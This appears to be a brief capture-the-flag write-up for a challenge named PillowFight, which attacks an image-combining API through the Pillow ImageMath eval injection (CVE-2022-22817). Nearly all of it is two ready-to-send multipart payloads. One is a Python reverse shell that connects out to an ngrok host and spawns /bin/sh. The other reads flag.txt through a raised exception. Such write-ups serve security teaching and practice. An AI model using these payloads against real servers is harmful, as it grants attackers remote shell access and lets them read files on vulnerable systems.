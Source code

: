# PillowFight

An API utilizing Pillow to combine images.

> Powered by Python Pillow v8.4.0!

Look vulnerable to CVE-2022-22817, there is some good discussion
in [this article](https://duartecsantos.github.io/2024-01-02-CVE-2023-50447/).

Get a reverse shell:

```
------WebKitFormBoundaryUX0YbRLl9zLFYuUe
Content-Disposition: form-data; name="eval_command"

eval("exec('import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"8.tcp.us-cal-1.ngrok.io\", 11695));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(\"/bin/sh\")')")
------WebKitFormBoundaryUX0YbRLl9zLFYuUe--
```

or raise an Exception to print the flag:

```
------WebKitFormBoundaryBjrZTVzW4Lfsjqb2
Content-Disposition: form-data; name="eval_command"

exec("raise Exception(open('flag.txt').read())")
------WebKitFormBoundaryBjrZTVzW4Lfsjqb2--
```
